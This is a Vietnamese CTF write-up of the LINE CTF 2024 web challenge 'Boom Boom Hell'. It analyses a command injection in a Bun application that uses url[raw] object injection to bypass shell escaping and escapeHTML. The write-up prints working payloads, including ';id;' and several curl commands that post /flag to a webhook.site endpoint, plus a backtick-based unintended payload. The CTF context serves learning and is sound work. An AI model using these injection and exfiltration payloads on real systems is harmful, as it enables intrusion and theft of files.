 ```yaml
---
title: "LINE CTF 2024 - web writeup"
excerpt: "March 23, 2024, 09:00 AM ~ March 24, 2024, 09:00 AM (UTC+9) 💻"
header:
show_date: true
header:
  teaser: /assets/images/images-ctf/2024-03-20-LineCTF-2024/teaser.png
  teaser_home_page: true
  icon: /assets/images/images-icon/ctf.png
  overlay_image: /assets/images/images-ctf/2024-03-20-LineCTF-2024/background.png
categories:
  - CTF
tags:
  - CTF
  - Vietnamese
---
```


# Boom Boom Hell* - 176 point/28 solved
## Description
```
Shall we dance? 🐻🐥🐰🎶
URL: http://34.146.180.210:3000/chall?url=https://www.lycorp.co.jp
```

source code [here](https://github.com/TaiPhung217/CTF_writeup/blob/main/2024/linectf2024/boomboomhell_898a5dc8c4b2ea241905c612d355ce58.zip)

## Solution

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image1.png)

Source code index.js không quá dài, chương trình chứa một api `/chall` với param `url`. 

Ở dòng code thứ 23 và 28 rất dễ thấycó lỗi command injection, mình sẽ thực hiện khai thác theo flow như sau:

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image2.png)

Tại dòng 28. ta có thể thấy code thực ghi một số dữ liệu dạng datetime và url truyền từ input vào file `.log` . Làm mình nhớ tới một dạng ghi payload vào file rồi gọi tới file với bash để thực thi. Nhưng không phải. 

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image3.png)

Thực tế, tham số `url` được xử lý trước bằng hàm `escapeHTML()` của `bun`. Ban đầu mình nghĩ khó khăn ở đây là cần phải vượt qua hàm này sao cho độ dài chuỗi gốc và sau khi escape không khác nhau bao gồm ký tự đặc biệt để thực thi mã..

```js
if (params.url.length < escapeHTML(params.url).length) {    // dislike suspicious chars
    return new Response("sorry, but the given URL is too complex for me");
}
```

`Bun.escapeHTML()` utility được sử dụng để escape các ký tự HTML trong các chuỗi. Các kiểu không phải là chuỗi sẽ được chuyển thành chuỗi trước khi thực hiện escape. Việc thay thế được thực hiện gồm: 
```js
" becomes "&quot;"
& becomes "&amp;"
' becomes "&#x27;"
< becomes "&lt;"
> becomes "&gt;"
```

ex:
```js
Bun.escapeHTML("<script>alert('Hello World!')</script>");
// &lt;script&gt;alert(&#x27;Hello World!&#x27;)&lt;&#x2F;script&gt;
```
Tham khảo [escape-html](https://bun.sh/guides/util/escape-html) hoặc đây [https://github.com/oven-sh/bun/blob/71113182c2a5228b447b836ad4b7bf705ad7e06d/test/js/bun/util/escapeHTML.test.js#L23](https://github.com/oven-sh/bun/blob/71113182c2a5228b447b836ad4b7bf705ad7e06d/test/js/bun/util/escapeHTML.test.js#L23)

Mình nghĩ việc thêm escapeHTML ở đây như một cú lừa vậy. Bởi vì mình nghĩ khá dễ để bypass được filter này mà không cần tới các ký tự đặc biệt thuộc blacklist của `escapeHTML()`.

Trước tiên, xét tới phần sink. Phân tích cú pháp bun shell . Bun shell là một ngôn ngữ nhúng thử nghiệm , trình thông dịch mới tỏng Bun, cho phép chạy các tập lệnh shell đa nền tảng trong JS và Typescript. Nói tới logic escape của Bun shell dưới dạng một function.

```js
import { $ } from "bun";

console.log($.escape('$(foo) `bar` "baz"'));
// => \$(foo) \`bar\` \"baz\"
```

Nếu không muốn chuỗi output bị escape, chỉ cần bọc nó trong một object `{ raw: 'str' }`
```js
import { $ } from "bun";

await $`echo ${{ raw: '$(foo) `bar` "baz"' }}`;
// => bun: command not found: foo
// => bun: command not found: bar
// => baz
```

Tham khảo [https://bun.sh/docs/runtime/shell#escape-escape-strings](https://bun.sh/docs/runtime/shell#escape-escape-strings)

Từ ví dụ trên mình có được 2 ý tưởng để chèn payload: `$(cat /flag)` hoặc `{% raw %}`cat /flag`{% endraw %}`.

Lúc này, việc thêm một object từ `param.url` thì data này sau khi được parse bởi `${}` sẽ trả về định dạng raw ban đầu. Kết hợp với lệnh `node/curl` trước đó để tạo thành một command injection payload. Với dòng code `qs.parse(url.search, {ignoreQueryPrefix: true});` khi truyền `url[raw]=$(payload)` sẽ trở thành một object 

```js
{
    "raw": $payload
}
```

Payload được truyền tới sink . Lúc này `$(param.url)` sẽ không được escape và sẽ được thực thi., mình nghĩ có thể thêm cách thứ 3 chỉ cần thêm phân tách lệnh để bypass thôi như `;id;`, `|id|`

Nhưng với payload như này thì mình nghĩ chỉ khai thác cmi được ở dòng code thứ 28 thôi. Vì kết quả trả về khi truyền object của cú pháp `${lyURL}` sẽ gọi tới `toString` của nó chính là `https://www.lycorp.co.jp/[object%20Object]` không bao gồm payload nên không thực thi được. 
```sh
curl -sL https://www.lycorp.co.jp/[object%20Object]
```

Object `URL`: 
![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image4.png)

`toString` của `URL` sẽ trả về `href` xem trong /blob/mastere/url.d.ts#L503
```text
* Getting the value of the `href` property is equivalent to calling {@link toString}.
```

Quay trở lại với payload đang nói trước đó 

Test với payload: `/chall?url[raw]=;id;`

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image5.png)

Test local xong. Tiếp theo chỉ việc gọi command `curl` tới webhook để lấy flag. 

Như mình đã giải thích ở trên, cuối cùng có 3 cách để làm bài này:
```bash
/chall?url[raw]=`curl+https://webhook.site/xxxxx+-d+@/flag`
```

hoặc 

```bash
/chall?url[raw]=$(curl+https://webhook.site/xxxx+-d+@/flag)
```

hoặc 
```bash
/chall?url[raw]=;curl+https://webhook.site/xxxxx+-d+@/flag;
```

## Unintended
Có một cách khác để khai thác được dòng dòng 23. Mà không phải truyền vào một object:

```js
/chall?url=https://www.lycorp.co.jp/?`1`file:///flag
```

![alt]({{ site.url }}{{ site.baseurl }}/assets/images/images-ctf/2024-03-20-LineCTF-2024/image6.png)


Ai đó đã report bug về `escapeHTML()` ngay sau khi CTF này kết thúc. [https://github.com/oven-sh/bun/pull/9619](https://github.com/oven-sh/bun/pull/9619)